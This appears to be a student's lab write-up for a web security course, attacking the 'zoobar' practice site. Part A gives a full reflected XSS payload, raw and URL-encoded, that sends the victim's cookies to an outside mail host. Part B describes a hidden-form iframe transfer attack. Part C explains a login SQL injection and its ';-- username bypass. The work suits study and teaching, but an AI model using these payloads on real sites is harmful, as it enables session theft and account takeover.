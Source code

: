 # Web Security Project

*This document is written in Markdown format.*

## A: URL Attack

### Vulnerabilities

When users of the website search for other users on the website, the URL query are process by the website PHP script and the query content is added to the response HTML body without any escaping mechanism. Thus, it is easy for attackers to insert some bad code into the URL query and let users' browser to execute it. 

### My attack

```javascript
(new Image()).src = 'http://zoomail.org/sendmail.php?' +'&netid=edydfang' + '&payload=' + document.cookie + '&random=' + Math.random();
```

The above JavaScript send a request to zoomail.org with the site cookies in the query. And zoomail.org will sent an email to the attack, letting the attacker know the cookies, which help the attack to fool the website as the identity of that user.

Query of user:

`\" size=10\>\<script\>(new Image()).src='http://zoomail.org/sendmail.php?'+'&netid=edydfang'+'&payload='+document.cookie+'&random='+Math.random();\</script\>\<input type=\"hidden`

Encoded query:

`%5C%22%20size%3D10%5C%3E%5C%3Cscript%5C%3E%28new%20Image%28%29%29.src%3D%27http%3A%2F%2Fzoomail.org%2Fsendmail.php%3F%27%2B%27%26netid%3Dedydfang%27%2B%27%26payload%3D%27%2Bdocument.cookie%2B%27%26random%3D%27%2BMath.random%28%29%3B%5C%3C%2Fscript%5C%3E%5C%3Cinput%20type%3D%5C%22hidden`

Full URL:

`http://zoobar.org/users.php?user=%5C%22%20size%3D10%5C%3E%5C%3Cscript%5C%3E%28new%20Image%28%29%29.src%3D%27http%3A%2F%2Fzoomail.org%2Fsendmail.php%3F%27%2B%27%26netid%3Dedydfang%27%2B%27%26payload%3D%27%2Bdocument.cookie%2B%27%26random%3D%27%2BMath.random%28%29%3B%5C%3C%2Fscript%5C%3E%5C%3Cinput%20type%3D%5C%22hidden`


### TODO
- Add redirection after loading to remove red message on the webpage

## B: XSS Attack

### Vulnerabilities

The zoobar website use the cookies as a user identifier, letting the user to modify his/her information or transfer credits between users. However, when user access some malicious web pages, their cookies can be stolen and do something bad for them. Although modern web browsers help users to prevent XSS Attacks, there are many ways to work around this kind of protections such as reverse proxy and iframe method.

### My Attack

I created a webpage that send post request via an invisible form on the parent frame whose target is an invisible iframe. We put all the payload of the original transfer post into the form `input` items and then `submit`. After the iframe is loaded completely, which means our request has been sent out, we change the window location to `https://www.google.com` immediately.



## C: SQL Injection Attack

### Vulnerabilities

After analyzing the user login authorization part of the ZooBar PHP code, we will find that the most critical part of the code is in the file `includes/auth.php`.  

```php
function _checkLogin($username, $password) {
    $quoteduser = $this->db->quote($username);
    $sql = "SELECT Salt FROM Person WHERE Username = '$quoteduser'";
    $rs = $this->db->executeQuery($sql);
    if ( !$rs->next() ) return false;   // No such user
    $salt = $rs->getValueByNr(0,0);
    $hashedpassword = md5($password.$salt);
    $sql = "SELECT * FROM Person WHERE " .
           "Username = '$username' AND " .
           "Password = '$hashedpassword'";
    $result = $this->db->executeQuery($sql);
    if ( $result->next() ) {
      $this->_setCookie($result, true);
      return true;
    } else {
      return false;
    }
  }

```

In the above function `_checkLogin`, we can notice that the code will first check whether the user exists and then use another SQL to check the password. The stupid thing is that when it check the existence of the user, it use the `quote` function to do quote escaping work, which making the injection of this part impossible. However, in the password checking SQL, there is no such kind of escaping. We can just add something after the `username` to let the SQL drop the rest of the WHERE sentence. To achieve this, what we need to do is first create a user whose username we will use to attack later, then when we use the manipulated username to login, as that username exists, the program will continue and check for the password correctness. As the password checking part is not working anymore, we can successfully login the target account.

### My Attack

 I used the similar XSS of the Part B. The only difference is the post URL and the data we are sending. Also, for this attack, we need to send two package, one for registration and another for login.

For the username manipulation, we can simply append `';--` , making the SQL terminate and let the rest of the text be the comment. For example, when we want to login to the user account `attacker`, we will first register the account `attacker';--` and then we use this username again and a arbitrary password to login. The account we login will be `attack`.

### TODO
- Add redirection after logging in